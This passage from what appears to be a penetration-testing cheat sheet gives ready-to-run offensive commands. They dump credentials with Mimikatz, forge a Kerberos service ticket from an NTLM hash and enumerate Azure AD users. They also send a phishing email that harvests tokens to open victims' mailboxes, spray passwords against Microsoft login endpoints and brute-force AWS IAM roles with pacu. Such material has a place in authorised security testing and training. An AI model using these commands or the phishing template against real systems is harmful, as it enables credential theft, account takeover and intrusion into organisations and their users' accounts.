sekurlsa::logonpasswords

rem obtain SID
whoami /user

rem forge the ticket
kerberos::golden /sid:S-1-5-21-1987370270-658905905-1781884369 /domain:corp.com /ptt /target:web04.corp.com /service:http /rc4:4d28cf5252d39971419580a51484ca09 /user:jeffadmin

rem confirm ticket has been loaded into memory 
exit
klist 

rem confirm access to service
iwr -UseDefaultCredentials http://web04
```

</details>

## Microsoft O365
<details>
<summary> AADInternals </summary>

``` powershell
# conduct azure recon on given domain name
Invoke-AADIntReconAsOutsider -DomainName domain.com | Format-Table

# pass list of users to verify valid usernames
Get-Content .\users.txt | Invoke-AADIntUserEnumerationAsOutsider -Method Normal

# Send a phishing email to recipients using customised message and save the tokens to cache
$message = 'Dear recipient, <br> Your Microsoft account has been compromised. Login at <a href="{1}">https://microsoft.com</a> to reset your password. <br> Use the following security code: <b>{0}</b>.' 
Invoke-AADIntPhishing -Recipients "wvictim@domain.com","wvictim2@domain.com" -Subject "Your Microsoft account is compromised - Actions required." -Sender "Johnny Carson <jc@somewhere.com>" -SMTPServer smtp.myserver.local -Message $message -SaveToCache

# open a user's mailbox using the tokens you just obtained from previous phishing
Open-AADIntOWA
```
</details>

<details>
<summary> Password Spraying Azure </summary>

``` bash
# use trevorspray to get the token endpoint
trevorspray --recon domain.com

# spray passwords against known users
trevorspray --users /tmp/users.txt --passwords /tmp/passwords.txt --url 'https://login.windows.net/TENANT-ID/oauth2/token'

```
</details>

<details>
<summary> GraphRunner </summary>

``` powershell
# obtain a devicelogin token to use in a phishing email
Get-GraphTokens

# check security groups using the auth tokens obtained from prior phishing attack
Get-SecurityGroups -Tokens $tokens

# identify dynamic security groups to possibly use for privelege escalation
Get-DynamicGroups -Tokens $tokens
```
</details>

## Cloud
<details>
<summary> cloud_enum </summary>

``` bash
# scan an aws cloud bucket that you know the name of
cloud_enum -k lab-assets-dev-axevtewi --quickscan --disable-azure --disable-gcp
```
</details>

<details>
<summary> cli </summary>

the attacker will need an account with the CSP (cloud service provider) in order to interact via cli. the cli can be powerful 

``` bash
# use aws cli to search for public resources
aws configure --profile your_profile

# confirm logged in 
aws --profile your_profile sts get-caller-identity

# look for public EC2's, filtering on description
aws --profile attacker ec2 describe-images --executable-users all --filters "Name=description,Values=*CompanyName*"

#same as above, filtering on name
aws --profile attacker ec2 describe-images --executable-users all --filters "Name=name,Values=*ComapnyName*"
```
</details>

<details>
<summary> pacu </summary>

``` bash
# start an interactive shell 
pacu

# import a previously authenticated profile
import_keys attacker

# list modules
ls

# see more information on a module
help iam__enum_roles

# brut force valid IAM roles in a target account 
run iam__enum_roles --word-list /tmp/role-names.txt --account-id 123456789012
```
</details>